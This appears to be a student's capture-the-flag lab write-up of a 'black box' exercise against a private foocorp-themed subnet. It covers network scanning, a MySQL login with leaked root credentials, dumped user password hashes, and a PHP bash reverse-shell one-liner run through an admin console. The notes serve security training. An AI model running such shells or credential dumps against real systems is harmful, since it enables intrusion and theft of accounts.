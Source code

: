 Blackbox 2 Notes

# Black Box 2 Notes

My IP: `172.16.64.10`
Target subnet: 172.16.64.0/24

Let's ping scan target subnet for up IPs.
`nmap -n -sn 172.16.64.0/24 -oG - | awk '/Up$/{print $2}'`

Results:
```
172.16.64.81
172.16.64.91
172.16.64.92
172.16.64.166
```
### 172.16.64.81
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```
MySQL on port 13306
- `MySQL 5.7.25-0ubuntu0.16.04.2`
- X-DB-Key: `x41x41x412019!`
- X-DB-User: `root`
- X-DB-name: `mysql`

**Flag found via SQL login**:
```
MySQL [cmsbase]> select id,content from flag;
+----+------------------------------+
| id | content                      |
+----+------------------------------+
|  1 | Congratulations, you got it! |
+----+------------------------------+
```

Other creds found via SQL:
```
MySQL [cmsbase]> select user,password,name,email from tbl_users;
+---------+--------------------------------------------------------------+---------+-------------------+
| user    | password                                                     | name    | email             |
+---------+--------------------------------------------------------------+---------+-------------------+
| foocorp | $2a$08$f2fG8Ncpmj815xQ9U3Ylh.uD0VW/X6kOgjPIEHKP547jspS0FlHF6 | foocorp | admin@foocorp.io  |
| mickey  | $2a$08$w/oljwDbODAThUR4HTVO8eUjTabE80sH0i6xnOR97ZXfsGGmxohAW | mickey  | mickey@foocorp.io |
| donald  | $2a$08$dK04y0KEURxDv02vYRab1OMYMSWbW/bpGF.eAWrWv9JAGaa4yTxlq | donald  | donald@foocorp.io |
+---------+--------------------------------------------------------------+---------+-------------------+
```

/webapp/ subdomain found!
#### /webapp/robots.txt:
```
User-agent: *
Disallow: /assets/
Disallow: /css/
Disallow: /emails/
Disallow: /img/
Disallow: /includes/
Disallow: /install/
Disallow: /lang/
Disallow: /sociallogin/
Disallow: /templates/
Disallow: /upload/
```
---

### 172.16.64.91
```
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```
DNS: 75ajvxi36vchsv584es1.foocorp.io.
No subdomains found.
Able to upload PHP reverse shell.
### 172.16.64.92
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp open  domain  dnsmasq 2.75
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
63306/tcp open  unknown  
```
Seems like this is the best bet for initial exploitation.
No subdomains found.
63306 is MySQL?
Ran PHP reverse shell in admin console:
`exec("/bin/bash -c 'bash -i >& /dev/tcp/172.16.64.10/1234 0>&1'");`
**Flag found!**
### 172.16.64.166
```
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```
Exploited using `sabrina:CHANGEME` creds.
**Flag found!**
